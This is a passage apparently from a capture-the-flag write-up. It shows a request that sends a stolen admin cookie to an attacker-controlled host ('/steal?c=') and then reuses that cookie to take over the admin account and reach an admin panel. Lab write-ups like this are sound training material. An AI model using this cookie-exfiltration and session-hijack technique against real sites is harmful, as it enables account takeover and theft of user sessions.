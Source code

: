 we successfully capture the cookie from the following request:

```bash
http://10.10.14.58/steal?c=<admin_cookie>
```

![Exploitation](picture19.png)

Now, with the cookie session we got, we can now change the current cookie into the admin's cookie and gained the access to the admin's account.

![Exploitation](picture20.png)

LOOK!!! There is an admin panel page we can access.

![Exploitation](picture21.png)
